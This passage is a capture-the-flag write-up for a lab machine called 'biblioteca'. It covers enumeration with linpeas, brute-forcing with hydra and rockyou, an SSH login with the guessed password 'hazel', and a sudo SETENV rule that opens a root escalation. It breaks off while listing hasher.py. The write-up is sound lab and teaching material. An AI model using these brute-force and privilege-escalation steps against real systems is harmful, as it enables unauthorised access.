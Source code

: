 - I started Enumerating the system manually, then I used `linpeas`, but I didn’t find anything interesting, then I checked out the first flag hint it’s “Weak password”
- So I started cracking hazel’the s password with hydra, while hydra is cracking the password with rockyou I started guess the password like hazel:password, etc.
- I found that hazel’s password is hazel 😄

## Gaining Access to Hazel’s account

```bash
ssh hazel@$ip # password: hazel
```

## User.txt flag

- navigate to hazel’s home directory

```bash
hazel@biblioteca:~$ ls
[hasher.py](http://hasher.py/)  user.txt
hazel@biblioteca:~$ cat user.txt
[REDACTED]
```

# Escalating Privileges to root

- We can set environmental variables and run **`/usr/bin/python3 /home/hazel/hasher.py` as root with no password**

```bash
hazel@biblioteca:~$ sudo -l
Matching Defaults entries for hazel on biblioteca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on biblioteca:
    **(root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py**
```

- hasher.py content
    
    ```python
  import hashlib
  
  def hashing(passw):
  
      md5 = hashlib.md5(passw.encode())
  
      print("Your MD5 hash is: ", end ="")
      print(md5.hexdigest())
  
      sha256 = hashlib.sha256(passw.encode())
  
      print("Your SHA256 hash is: ", end ="")
      print(sha256.hexdigest())
  
      sha1 = hashlib.sha1(passw.encode())
  
